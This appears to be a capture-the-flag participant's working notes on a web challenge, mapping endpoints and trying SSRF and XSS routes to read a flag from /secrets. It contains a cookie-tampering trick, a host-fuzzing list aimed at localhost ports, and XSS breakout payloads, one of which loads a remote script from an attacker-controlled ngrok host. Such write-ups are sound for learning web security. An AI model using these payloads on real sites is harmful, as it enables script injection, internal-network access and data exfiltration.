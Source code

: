 # Bad WAF No Donut

> I made a simple little backdoor into my network to test some things. Let me know
> if you find any problems with it.
> https://nessus-badwaf.chals.io/

## Sitemap
/
/explore
  /books
  /cats
  /shopping_list
/render?url=https://google.com
/ping?host=google.com
/secrets (GET & POST)

## Open Questions
- How can we use /ping to get any external request made?
  - If ping can hit our server, will it actually run JS?
- Is the XSS necessary to get around cross-domains security?
  We could make a request to secrets and actually read the response as it executes
  on the same domain.

## Findings
- /explore reads an admin cookie and if true links to /secrets. Just go there or
  type `document.cookie="admin=true"` in console to get a link.
- /secrets has an HTML comment saying to try asking with a secret_name POST
  parameter. It seems likely to store the flag, but we "have to know how to ask"
  - Submitting `secret_name=flag` in a form responds with: "You know what to ask for, but you're not asking correctly."
    This is unique to form submssion and the name being flag. So seems like that right path.
- /render is vulnerable to XSS. This allows bypassing cross-domain restrictions.

## Exploit Paths
Clearly this is some sort of SSRF given the name and ability to render and ping.
The general idea is to figure out how to get ping to hit our server, but because
of WAF maybe this isn't allowed directly, but if we can then use render which
iframes our URL we might have custom code we can run to access LAN.

Possible: 
- Use /ping with /render to get an SSRF.
  - The SSRF can be through an iframe or XSS on the same domain
- Make request to /secrets locally and exfil to our server

## Notes
### POST /secrets
```
fetch("https://nessus-badwaf.chals.io/secrets", {method: "post", headers: {"Content-Type": "application/json"}, body: JSON.stringify({"secret_name": "secret"})})
// this one works
fetch("https://nessus-badwaf.chals.io/secrets", {method: "post", headers: {"Content-Type": "application/x-www-form-urlencoded"}, body: "secret_name=flag"})
```

- A basic POST returns a locked emoji, regardless of the payload content. So
  it's not clear if the format is right or not to even test against possible
  secret names.
- **When we form url encode it we get "You know what to ask for, but you're not
  asking correctly."**
  This ONLY happens when we use `secret_name=flag`. When we change the name of
  the key we get the locked emoji, when we change from `flag` we usually get 500
  errors.
  NOTE: This does not happen with `application/json` or `application/xml`
- Q: What does "correctly" mean?
  - Maybe this has to happen locally from a server iframe? It doesn't have CORS
    headers and this doesn't work in JS it seems. It can be done with a form on
    the page but we likely can't access contents of the redirect because of
    cross-frame things. BUT NOW WE CAN via XSS


### GET /ping?host=...
We want to try to get any ping on our server.


Fuzzed with these options and got nothing back. No variation in responses
either.
```
https://f2af-99-61-65-255.ngrok-free.app
//f2af-99-61-65-255.ngrok-free.app
f2af-99-61-65-255.ngrok-free.app
https://nessus-badwaf.chals.io/render?url=//f2af-99-61-65-255.ngrok-free.app
nessus-badwaf.chals.io/render?url=//f2af-99-61-65-255.ngrok-free.app
localhost/render?url=//f2af-99-61-65-255.ngrok-free.app
localhost:5000/render?url=//f2af-99-61-65-255.ngrok-free.app
localhost:8000/render?url=//f2af-99-61-65-255.ngrok-free.app
localhost:8080/render?url=//f2af-99-61-65-255.ngrok-free.app
localhost:9000/render?url=//f2af-99-61-65-255.ngrok-free.app
127.0.0.1/render?url=//f2af-99-61-65-255.ngrok-free.app
127.0.0.1:5000/render?url=//f2af-99-61-65-255.ngrok-free.app
127.0.0.1:8000/render?url=//f2af-99-61-65-255.ngrok-free.app
127.0.0.1:8080/render?url=//f2af-99-61-65-255.ngrok-free.app
127.0.0.1:9000/render?url=//f2af-99-61-65-255.ngrok-free.app
0.0.0.0:5000/render?url=//f2af-99-61-65-255.ngrok-free.app
0.0.0.0:8000/render?url=//f2af-99-61-65-255.ngrok-free.app
0.0.0.0:8080/render?url=//f2af-99-61-65-255.ngrok-free.app
0.0.0.0:9000/render?url=//f2af-99-61-65-255.ngrok-free.app
```

Hosts wordlist
```
https://nessus-badwaf.chals.io
//nessus-badwaf.chals.io
nessus-badwaf.chals.io
localhost
localhost:5000
http://localhost
http://localhost:5000
localhost.me
localhost.me:5000
http://localhost.me
http://localhost.me:5000
127.0.0.1
127.0.0.1:5000
http://127.0.0.1
http://127.0.0.1:5000
0.0.0.0
0.0.0.0:5000
http://0.0.0.0
http://0.0.0.0:5000

localhost:8000
localhost.me:8000
127.0.0.1:8000
0.0.0.0:8000
```

### GET /render?url=...
This URL renders whatevr we want into an iframe. This clearly looks like it's
used to render a malicious website that exfils something when we run it on ther
server.

I think you can just inject raw HTML and XSS because of inner html

```
"></iframe><div x="
```

POC:
https://nessus-badwaf.chals.io/render?url=%22%3E%3C/iframe%3E%3Cdiv%20x=%22

https://nessus-badwaf.chals.io/render?url=%22%3E%3C/iframe%3E%3Cimg%20src=%22https://f2af-99-61-65-255.ngrok-free.app/img.jpg%22/%3E%3Cdiv%20x=%22

Example requests
```
try loading an image to test if it can call out to us
https://nessus-badwaf.chals.io/render?url="></iframe><img src="//f2af-99-61-65-255.ngrok-free.app/img.jpg"/><div x="

inject our remote JS payload
https://nessus-badwaf.chals.io/render?url="></iframe><img src=x onerror="d=document;s=d.createElement('script');s.src='https://f2af-99-61-65-255.ngrok-free.app/script.js';d.head.appendChild(s)"/><div x="
```

